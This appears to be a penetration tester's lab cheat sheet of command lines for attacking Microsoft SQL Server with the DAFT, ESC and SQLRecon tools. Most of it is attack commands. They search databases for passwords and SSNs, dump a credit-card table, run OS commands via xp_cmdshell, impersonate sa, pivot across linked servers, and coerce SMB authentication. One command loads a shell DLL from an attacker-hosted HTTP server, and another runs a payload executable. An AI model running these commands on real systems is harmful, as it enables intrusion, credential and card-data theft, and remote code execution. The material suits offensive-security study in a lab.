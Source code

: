     //Enumeration w/ DAFT.exe:
        View non-default databases:  \\192.168.45.210\visualstudio\DAFT\DAFT\bin\x64\Release\DAFT.exe -i "appsrv01.corp1.com" -m "database" -n
        Sensitive data:  \\192.168.45.210\visualstudio\DAFT\DAFT\bin\x64\Release\DAFT.exe -i "appsrv01.corp1.com" -m "ColumnSampleData" --SearchKeywords="password,passwd,secret,licence,ssn" --SampleSize=5
        OS command:  \\192.168.45.210\visualstudio\DAFT\DAFT\bin\x64\Release\DAFT.exe -i "dc01.corp1.com" -m "OSCmd" -q "whoami"

    //Enumeration w/ ESC:
        //msbuild option for running:  C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe esc.csproj
        discover domainspn; show discovered
        set targetall enabled; show settings
        check access; show access
        set instance dc01.corp1.com
        select @@version
        go
        list databases
        check defaultpw; check loginaspw
        run oscmd whoami
        list links
            //or: EXEC sp_linkedservers;
                    go
        list logins; list rolemembers; list privs
        check uncinject <IP>

    //**Enumeration w/ SQLRecon:
        \\192.168.45.210\visualstudio\SQLRecon.exe ...
            /enum:sqlspns
            //current token:  /a:WinToken /h:DC01 /m:whoami
            //domain creds:  /a:WinDomain /d:corp1.com /h:DC01 /u:administrator /p:lab /m:whoami
            //local creds:  /a:Local /h:SQL01 /u:sa /p:Password123 /m:whoami
            /auth:WinToken /host:DC01 /module:info
                /module:users
                /module:databases
                    /module:tables /db:Payments
                        /module:columns /db:Payments /table:cc
                            /m:rows /db:AdventureWorks /table:SalesLT.Customer
                /database:Payments /module:search /keyword:password
                /database:Payments /module:query /command:"select * from cc"
                /module:smb /rhost:\\172.16.99.37\someshare
            * /module:links
                    /l:SQL02 /m:lwhoami
                    /l:SQL02 /m:lusers
                    /l:SQL02 /m:ldatabases
                        ...
                    /m:lsmb /rhost:\\172.16.99.37\someshare
                    /l:SQL03 /m:llinks
                    /l:SQL02 /m:lenablexp
                        /l:SQL02 /m:lxpcmd /c:"c:\temp\payload.exe"         //blind execution
                        ... same as below
            * /module:impersonate
                    /i:sa /m:iwhoami
                    /i:sa /m:iusers
                    /i:sa /m:idatabases
                        /i:sa /m:itables /db:AdventureWorks
                            /i:sa /m:icolumns /db:AdventureWorks /table:Customer
                                /i:sa /m:irows /db:Payments /table:cc
                        /database:AdventureWorks /i:sa /m:isearch /keyword:add
                        /i:sa /m:iquery /c:"select @@version"
                        /i:sa /m:ilinks
                    **Enable/Disable stuff below, just preface /m name with 'i' and give /i:sa       
                    **Shell ex.:
                        \\192.168.45.210\visualstudio\SQLRecon.exe /a:WinToken /h:DC01 /i:sa /m:iclr /dll:"http://192.168.45.210/cmdExec2.dll" /function:cmdExec2